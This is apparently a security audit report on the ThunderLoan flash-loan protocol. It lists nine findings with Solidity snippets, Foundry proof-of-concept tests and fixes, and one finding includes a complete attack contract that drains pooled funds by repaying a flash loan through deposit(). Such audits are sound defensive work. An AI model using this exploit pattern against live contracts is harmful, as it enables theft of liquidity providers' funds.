

\begin{titlepage}
    \centering
    \begin{figure}[h]
        \centering
        \includegraphics[width=0.5\textwidth]{logo.pdf} 
    \end{figure}
    \vspace*{2cm}
    {\Huge\bfseries Protocol Audit Report\par}
    \vspace{1cm}
    {\Large Version 1.0\par}
    \vspace{2cm}
    {\Large\itshape 0xAdra.io\par}
    \vfill
    {\large \today\par}
\end{titlepage}

\maketitle

<!-- Your report starts here! -->

Prepared by: [0xAdra](https://github.com/adityaxxz)

Lead Auditors: 0xAdra 

<!-- - [Table of Contents](#table-of-contents) -->

- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
  - [Roles](#roles)
  - [Issues found](#issues-found)
- [Findings](#findings)
- [High](#high)
- [Medium](#medium)
- [Low](#low)

<!-- # Table of Contents
- [Table of Contents](#table-of-contents)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
  - [Roles](#roles)
  - [Issues found](#issues-found)
- [Findings](#findings) -->


# Disclaimer



0xAdra maked all effort to find as many vulnerabilities in the code in the given time period, but holds no responsibilities for the findings provided in this document. A security audit by the auditor is not an endorsement of the underlying business or product. The audit was time-boxed and the review of the code was solely on the security aspects of the Solidity implementation of the contracts.

# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| Likelihood | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |


# Audit Details 
- Commit Hash: 8803f851f6b37e99eab2e94b4690c8b70e26b3f6


## Scope 

- Solc Version: 0.8.18
- Chain(s) to deploy contract to: Ethereum
- ERC20s:
  - USDC
  - DAI
  - LINK
  - WETH

## Roles
- Owner: The owner of the protocol who has the power to upgrade the implementation.
- Liquidity Provider: A user who deposits assets into the protocol to earn interest.
- User: A user who takes out flash loans from the protocol.


## Issues found

| Severity | Number of issues found |
| -------- | ---------------------- |
| High     |            4           |
| Medium   |            2           |
| Low      |            3           |
| Info     |            0           |
| Total    |            9           |

# Findings


## High

### [H-1] Incorrect `ThunderLoan::updateExchangeRate` in the deposit function casuses the protocol to think it has more fees than it actaully does, which blocks redemption & incorrectly sets the exchange rate.

**Description:** In ThunderLoan contract, the `ExchangeRate` is responsible for calculating the exchange rate between assestTokens and Underlying tokens. Moreover, it's also responsible for keeping track of how many fees to give to liquidity providers.

However, the `deposit` function updates this exchange rate, without collecting any fees!

```javascript
    function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount); 

@>      uint256 calculatedFee = getCalculatedFee(token, amount);
@>      assetToken.updateExchangeRate(calculatedFee);

        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```

**Impact:** There are several impact scenarios:
1. The `redeem` function is blocked, because the protocol thinks the owed tokens is more than it actaully was.
2. Rewards are calculated incorrectly, leading users to potencially way more or less than deserved.

**Proof of Concept:** 
1. LP deposits
2. User takes out a flash loan
3. It is now impossible for LP to redeem.

<details>
<summary>Proof of code</summary>

```javascript
    function testRedeemAfterLoan() public  setAllowedToken hasDeposits {
        uint256 amountToBorrow = AMOUNT * 10;
        uint256 calculatedFee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);

        vm.startPrank(user);
        tokenA.mint(address(mockFlashLoanReceiver), calculatedFee);
        thunderLoan.flashloan(address(mockFlashLoanReceiver), tokenA, amountToBorrow, "");
        vm.stopPrank();
        
        uint256 amountToRedeem = type(uint256).max;
        vm.startPrank(liquidityProvider); 
        thunderLoan.redeem(tokenA, amountToRedeem);

    }

```

</details>

**Recommended Mitigation:** Remove the incorrect updated exchange rate lines from `deposit`.

```diff
    function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount); 

-       uint256 calculatedFee = getCalculatedFee(token, amount);
-       assetToken.updateExchangeRate(calculatedFee);

        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }

```

---

### [H-2] Storage Collision during upgrade 

**Description:** Mixing up variable storage locations causes storage collisions in `ThunderLoan::s_flashLoanFee` and `ThunderLoan::s_currentlyFlashLoaning` , freezing protocol.

`ThunderLoan.sol` has two variables in the following order:

```javascript
    uint256 private s_feePrecision;
    uint256 private s_flashLoanFee;
```

However , the upgraded contract `ThunderLoanUpgraded.sol` has in different format:

```javascript
    uint256 private s_flashLoanFee; 
    uint256 public constant FEE_PRECISION = 1e18;
```

Due to how solidity storage works, after the upgrade the `s_flashLoanFee` will have the value of `s_feePrecision`. You cannot modify the position of the storage variables, and removing storage variables for constants variables, breaks the storage locations as well.

**Impact:** After the upgrade, the `s_flashLoanFee` will have the value of `s_feePrecision`. This means the users who take out flash loans right after an upgrade will be charged the wrong fee.

Moreover, the `s_currentlyFlashLoaning` mapping with storage in the wrong storage slot.

**Proof of Concept:** 

<details>
<summary>Proof of Code</summary>

Place the following into `ThunderLoanTest.t.sol`

```javascript

import { ThunderLoanUpgraded } from "../../src/upgradedProtocol/ThunderLoanUpgraded.sol";
.
.
.
    function testUpgradeBreaks() public {
        uint256 feeBeforeUpgrade = thunderLoan.getFee();
        vm.startPrank(thunderLoan.owner());
        ThunderLoanUpgraded upgraded = new ThunderLoanUpgraded();
        thunderLoan.upgradeToAndCall(address(upgraded), "");
        uint256 feeAfterUpgrade = thunderLoan.getFee();
        vm.stopPrank();

        console2.log("Fee Before: ", feeBeforeUpgrade);
        console2.log("Fee After: ", feeAfterUpgrade);
        assert(feeBeforeUpgrade != feeAfterUpgrade);

    }

```


</details>

You can also see the storage layout difference by running `forge inspect ThunderLoan storage` and `forge inspect ThunderLoanUpgraded storage`.

**Recommended Mitigation:** If you must remove the storage variable , leave it blank as to not mess up the storage slots.

```diff

-    uint256 private s_flashLoanFee;
-    uint256 public constant FEE_PRECISION = 1e18;
+    uint256 private s_blank;
+    uint256 private s_flashLoanFee;
+    uint256 public constant FEE_PRECISION = 1e18;

```

---

### [H-3] fee are less for non standard ERC20 Token

**Description:**  Within the functions `ThunderLoan::getCalculatedFee()` and `ThunderLoanUpgraded::getCalculatedFee()` , an issue arises with the calculated fee value when dealing with non-standard ERC20 tokens. Specifically, the calculated value for non-standard tokens appears significantly lower compared to that of standard ERC20 tokens.

Thunderloan.sol

```javascript

function getCalculatedFee(IERC20 token, uint256 amount) public view returns (uint256 fee) {
        //slither-disable-next-line divide-before-multiply
@>        uint256 valueOfBorrowedToken = (amount * getPriceInWeth(address(token))) / s_feePrecision;
@>        //slither-disable-next-line divide-before-multiply
        fee = (valueOfBorrowedToken * s_flashLoanFee) / s_feePrecision;
    }

```


ThunderLoanUpgraded.sol

```javascript
function getCalculatedFee(IERC20 token, uint256 amount) public view returns (uint256 fee) {
        //slither-disable-next-line divide-before-multiply
@>        uint256 valueOfBorrowedToken = (amount * getPriceInWeth(address(token))) / FEE_PRECISION;
        //slither-disable-next-line divide-before-multiply
@>        fee = (valueOfBorrowedToken * s_flashLoanFee) / FEE_PRECISION;
    }

```

**Impact:** 
Let's say:
- user 1 asks a flashloan for 1 ETH.
- user 2 asks a flashloan for 2000 USDC.

```javascript

function getCalculatedFee(IERC20 token, uint256 amount) public view returns (uint256 fee) {
        
        //1 ETH = 1e18 WEI
        //2000 USDT = 2 * 1e9 WEI

        uint256 valueOfBorrowedToken = (amount * getPriceInWeth(address(token))) / s_feePrecision;

        // valueOfBorrowedToken ETH = 1e18 * 1e18 / 1e18 WEI
        // valueOfBorrowedToken USDT= 2 * 1e9 * 1e18 / 1e18 WEI

        fee = (valueOfBorrowedToken * s_flashLoanFee) / s_feePrecision;

        //fee ETH = 1e18 * 3e15 / 1e18 = 3e15 WEI = 0,003 ETH
        //fee USDT: 2 * 1e9 * 3e15 / 1e18 = 6e6 WEI = 0,000000000006 ETH
    }

```

The fee for the user 2 are much lower then user 1 despite they asked a flashloan for the same value (hypotesis 1 ETH = 2000 USDT).


**Recommended Mitigation:** Adjust the precision accordingly with the allowed tokens considering that the non standard ERC20 haven't 18 decimals.

---

### [H-4] All the funds can be stolen if the flash loan is returned using deposit() 

**Description:** An attacker can acquire a flash loan & deposit funds directly into the contract using the `deposit()`, enabling stealing all the funds.

The `flashloan()` performs a crucial balance check to ensure that the ending balance, after the flash loan, exceeds the initial balance, accounting for any borrower fees. This verification is achieved by comparing `endingBalance` with `startingBalance + fee`. However, a vulnerability emerges when calculating endingBalance using `token.balanceOf(address(assetToken))`.

Exploiting this vulnerability, an attacker can return the flash loan using the `deposit()` instead of `repay()`. This action allows the attacker to mint `AssetToken` and subsequently redeem it using `redeem()`. What makes this possible is the apparent increase in the Asset contract's balance, even though it resulted from the use of the incorrect function. Consequently, the flash loan doesn't trigger a revert.

**Impact:**  All the funds of the AssetToken.sol Contract can be stolen.


**Proof of Concept:**   To execute the test successfully, please complete the following steps:

1. Place the **`attack.sol`** file within the mocks folder.
2. Import the contract in **`ThunderLoanTest.t.sol`**.
3. Change the **`setUp()`** function in **`ThunderLoanTest.t.sol`**.
4. Add **`testattack()`** function in **`ThunderLoanTest.t.sol`**.


```javascript
import { Attack } from "../mocks/attack.sol";
```

```javascript
function setUp() public override {
        super.setUp();
        vm.prank(user);
        mockFlashLoanReceiver = new MockFlashLoanReceiver(address(thunderLoan));
        vm.prank(user);
        attack = new Attack(address(thunderLoan));   
    }
```

```javascript
function testattack() public setAllowedToken hasDeposits {
        uint256 amountToBorrow = AMOUNT * 10;
        vm.startPrank(user);
        tokenA.mint(address(attack), AMOUNT);
        thunderLoan.flashloan(address(attack), tokenA, amountToBorrow, "");
        attack.sendAssetToken(address(thunderLoan.getAssetFromToken(tokenA)));
        thunderLoan.redeem(tokenA, type(uint256).max);
        vm.stopPrank();

        assertLt(tokenA.balanceOf(address(thunderLoan.getAssetFromToken(tokenA))), DEPOSIT_AMOUNT);   
    }
```


attack.sol

```javascript
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import { IERC20 } from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import { SafeERC20 } from "@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol";
import { IFlashLoanReceiver } from "../../src/interfaces/IFlashLoanReceiver.sol";

interface IThunderLoan {
    function repay(address token, uint256 amount) external;
    function deposit(IERC20 token, uint256 amount) external;
    function getAssetFromToken(IERC20 token) external;
}


contract Attack {
    error MockFlashLoanReceiver__onlyOwner();
    error MockFlashLoanReceiver__onlyThunderLoan();

    using SafeERC20 for IERC20;

    address s_owner;
    address s_thunderLoan;

    uint256 s_balanceDuringFlashLoan;
    uint256 s_balanceAfterFlashLoan;

    constructor(address thunderLoan) {
        s_owner = msg.sender;
        s_thunderLoan = thunderLoan;
        s_balanceDuringFlashLoan = 0;
    }

    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address initiator,
        bytes calldata /*  params */
    )
        external
        returns (bool)
    {
        s_balanceDuringFlashLoan = IERC20(token).balanceOf(address(this));
        
        if (initiator != s_owner) {
            revert MockFlashLoanReceiver__onlyOwner();
        }
        
        if (msg.sender != s_thunderLoan) {
            revert MockFlashLoanReceiver__onlyThunderLoan();
        }
        IERC20(token).approve(s_thunderLoan, amount + fee);
        IThunderLoan(s_thunderLoan).deposit(IERC20(token), amount + fee);
        s_balanceAfterFlashLoan = IERC20(token).balanceOf(address(this));
        return true;
    }

    function getbalanceDuring() external view returns (uint256) {
        return s_balanceDuringFlashLoan;
    }

    function getBalanceAfter() external view returns (uint256) {
        return s_balanceAfterFlashLoan;
    }

    function sendAssetToken(address assetToken) public {
        
        IERC20(assetToken).transfer(msg.sender, IERC20(assetToken).balanceOf(address(this)));
    }
}
```

Notice that the `assertLt()` checks whether the balance of the AssetToken contract is less than the `DEPOSIT_AMOUNT` , which represents the initial balance. The contract balance should never decrease after a flash loan, it should always be higher.

**Recommended Mitigation:** Add a check in `deposit()` to make it impossible to use it in the same block of the flash loan. For example registring the block.number in a variable in `flashloan()` and checking it in `deposit()`.

---
---


## Medium

### [M-1] Using TSwap as a price oracle leads to price and oracle manipulation attacks. 

**Description:** The Tswap protocol is a constant product formula based AMM. The price of a token is determined by how many reserves are on either side of the pool. Because of this, it is easy for malicious users to manipulate the price of a token by buying or setting a large amount of the token in the same transaction, essentially ignoring protocol fees.

**Impact:** Liquidity providers will drastically reduced fees for providing liquidity.

**Proof of Concept:** 
The following happens in 1 transaction:

1. User takes a flashloan from `ThunderLoan` for 1000 `tokenA`. They are charged the original fee `fee1`.
During the flashloan , they do the following:
    1. User sells 1000, `tokenA` tanking the price.
    2. Instead of repaying right away, the user takes out another flashloan for another 1000 `tokenA`.
        1. Due to the fact that the way `ThunderLoan` calculates price based on the `TSwapPool` this second flashloan is subsanticially cheaper.

```javascript

    function getPriceInWeth(address token) public view returns (uint256) {
        address swapPoolOfToken = IPoolFactory(s_poolFactory).getPool(token);
@>      return ITSwapPool(swapPoolOfToken).getPriceOfOnePoolTokenInWeth();
    }

```
    3. The User then repays the first flashloan and then repays the second flashloan.


**Recommended Mitigation:** Consider using a different price oracle mechanism, like ChainLink Price Feed with a Uniswap TWAP(time-weighted average price) fallback oracle.

---

### [M-2] `ThunderLoan::setAllowedToken` can permanently lock liquidity providers out from redeeming their tokens.

**Description:** If the `ThunderLoan::setAllowedToken` function is called with the intention of setting an allowed token to false & thus deleting the assetToken to token mapping; nobody would be able to redeem funds of that token in the `ThunderLoan::redeem` function & thus have them locked away without access.

**Impact:** If the owner sets an allowed token to false, this deletes the mapping of the asset token to that ERC20. If this is done, and a liquidity provider has already deposited ERC20 tokens of that type, then the liquidity provider will not be able to redeem them in the `ThunderLoan::redeem` function.

```javascript

     function setAllowedToken(IERC20 token, bool allowed) external onlyOwner returns (AssetToken) {
        if (allowed) {
            if (address(s_tokenToAssetToken[token]) != address(0)) {
                revert ThunderLoan__AlreadyAllowed();
            }
            string memory name = string.concat("ThunderLoan ", IERC20Metadata(address(token)).name());
            string memory symbol = string.concat("tl", IERC20Metadata(address(token)).symbol());
            AssetToken assetToken = new AssetToken(address(this), token, name, symbol);
            s_tokenToAssetToken[token] = assetToken;
            emit AllowedTokenSet(token, assetToken, allowed);
            return assetToken;
        } else {
            AssetToken assetToken = s_tokenToAssetToken[token];
@>          delete s_tokenToAssetToken[token];
            emit AllowedTokenSet(token, assetToken, allowed);
            return assetToken;
        }
    }

```


```javascript

     function redeem(
        IERC20 token,
        uint256 amountOfAssetToken
    )
        external
        revertIfZero(amountOfAssetToken)
@>      revertIfNotAllowedToken(token)
    {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        if (amountOfAssetToken == type(uint256).max) {
            amountOfAssetToken = assetToken.balanceOf(msg.sender);
        }
        uint256 amountUnderlying = (amountOfAssetToken * exchangeRate) / assetToken.EXCHANGE_RATE_PRECISION();
        emit Redeemed(msg.sender, token, amountOfAssetToken, amountUnderlying);
        assetToken.burn(msg.sender, amountOfAssetToken);
        assetToken.transferUnderlyingTo(msg.sender, amountUnderlying);
    }

```


**Proof of Concept:** The below test passes with a ThunderLoan__NotAllowedToken error. Proving that a liquidity provider cannot redeem their deposited tokens if the setAllowedToken is set to false, Locking them out of their tokens.

```javascript

        function testCannotRedeemNonAllowedTokenAfterDepositingToken() public {
        vm.prank(thunderLoan.owner());
        AssetToken assetToken = thunderLoan.setAllowedToken(tokenA, true);

        tokenA.mint(liquidityProvider, AMOUNT);
        vm.startPrank(liquidityProvider);
        tokenA.approve(address(thunderLoan), AMOUNT);
        thunderLoan.deposit(tokenA, AMOUNT);
        vm.stopPrank();

        vm.prank(thunderLoan.owner());
        thunderLoan.setAllowedToken(tokenA, false);

        vm.expectRevert(abi.encodeWithSelector(ThunderLoan.ThunderLoan__NotAllowedToken.selector, address(tokenA)));
        vm.startPrank(liquidityProvider);
        thunderLoan.redeem(tokenA, AMOUNT);
        vm.stopPrank();
    }

```

**Recommended Mitigation:** Add a check in the `setAllowedToken` function , If that assetToken holds any balance of ERC20, If so, then you cannot remove the mapping.


```javascript

    function setAllowedToken(IERC20 token, bool allowed) external onlyOwner returns (AssetToken) {
        if (allowed) {
            if (address(s_tokenToAssetToken[token]) != address(0)) {
                revert ThunderLoan__AlreadyAllowed(); 
            }
            string memory name = string.concat("ThunderLoan ", IERC20Metadata(address(token)).name());
            string memory symbol = string.concat("tl", IERC20Metadata(address(token)).symbol());
            AssetToken assetToken = new AssetToken(address(this), token, name, symbol);
            s_tokenToAssetToken[token] = assetToken;
            emit AllowedTokenSet(token, assetToken, allowed);
            return assetToken;
        } else {
            AssetToken assetToken = s_tokenToAssetToken[token];
+           uint256 hasTokenBalance = IERC20(token).balanceOf(address(assetToken));
+           if (hasTokenBalance == 0) {
                delete s_tokenToAssetToken[token];
                emit AllowedTokenSet(token, assetToken, allowed);
+           }
            return assetToken;
        }
    }

```


---


## Low 

### [L-1]  getCalculatedFee() can be 0

**Description:** the `getCalculatedFee` function can be as low as 0.

**Impact:** Low as this amount is really small

**Proof of Concept:** Use this test in `ThunderLoan.t.sol` , Any value up to 333 for "amount" can result in 0 fee based on calculation.

```javascript

    function testFuzzGetCalculatedFee() public {
        AssetToken asset = thunderLoan.getAssetFromToken(tokenA);

        uint256 calculatedFee = thunderLoan.getCalculatedFee(tokenA,333);

        assertEq(calculatedFee ,0);

        console2.log(calculatedFee);
    }

```

**Recommended Mitigation:** A minimum fee can be used to offset the calculation, though it is not that important.

---

### [L-2] updateFlashLoanFee() is missing an event

**Description:** `ThunderLoan::updateFlashLoanFee()` and `ThunderLoanUpgraded::updateFlashLoanFee()` does not emit an event, so it is difficult to track changes in the value `s_flashLoanFee` off-chain.

**Impact:** Events are used to facilitate comms between smart contracts and their user interfaces or other off-chain services. When an event is emitted, it gets logged in the transaction receipt, and these logs can be monitored and reacted to by off-chain services or user interfaces.

Without a `FeeUpdated` event, any off-chain service or user interface that needs to know the current `s_flashLoanFee` would have to actively query the contract state to get the current value. This is less efficient than simply listening for the `FeeUpdated` event, and it can lead to delays in detecting changes to the `s_flashLoanFee`.

The impact of this could be significant because the `s_flashLoanFee` is used to calculate the cost of the flash loan. If the fee changes and an off-chain service or user is not aware of the change because they didn't query the contract state at the right time, they could end up paying a different fee than they expected.


**Recommended Mitigation:** Emit an event for critical parameters changes.

```javascript

+ event FeeUpdated(uint256 indexed newFee);

  function updateFlashLoanFee(uint256 newFee) external onlyOwner {
        if (newFee > s_feePrecision) {
            revert ThunderLoan__BadNewFee();
        }
        s_flashLoanFee = newFee;
+        emit FeeUpdated(s_flashLoanFee);
    }

```

---

### [L-3] Mathematical Ops Handled Without Precision in getCalculatedFee() Function in ThunderLoan.sol

**Description:** In a manual review of the `ThunderLoan.sol` contract, it was discovered that the mathematical operations within the `getCalculatedFee()` function do not handle precision appropriately. Specifically, the calculations in this function could lead to precision loss when processing fees. This issue is of low priority but may impact the accuracy of fee calculations.

The identified problem revolves around the handling of mathematical operations in the getCalculatedFee() function. The code snippet below is the source of concern:

```javascript
uint256 valueOfBorrowedToken = (amount * getPriceInWeth(address(token))) / s_feePrecision;
fee = (valueOfBorrowedToken * s_flashLoanFee) / s_feePrecision;
```

The above code may lead to precision loss during the fee calculation process, potentially causing accumulated fees to be lower than expected.

**Impact:** This issue is assessed as low impact. While the contract continues to operate correctly, the precision loss during fee calculations could affect the final fee amounts. This discrepancy may result in fees that are marginally different from the expected values.


**Recommended Mitigation:** To mitigate the risk of precision loss during fee calculations, it is recommended to handle mathematical operations differently within the `getCalculatedFee()` function. One of the following actions should be taken:

Change the order of operations to perform multiplication before division. This reordering can help maintain precision. Utilize a specialized library, such as math.sol, designed to handle mathematical operations without precision loss. By implementing one of these recommendations, the accuracy of fee calculations can be improved, ensuring that fees align more closely with expected values.


---
